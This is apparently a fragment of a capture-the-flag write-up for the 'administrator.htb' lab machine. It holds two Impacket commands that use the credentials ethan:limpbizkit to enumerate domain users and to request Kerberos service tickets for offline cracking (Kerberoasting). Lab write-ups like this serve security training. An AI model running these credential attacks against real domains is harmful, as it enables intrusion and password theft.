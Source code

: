 

python GetADUsers.py administrator.htb/ethan:limpbizkit -all

python GetUserSPNs.py administrator.htb/ethan:limpbizkit -request
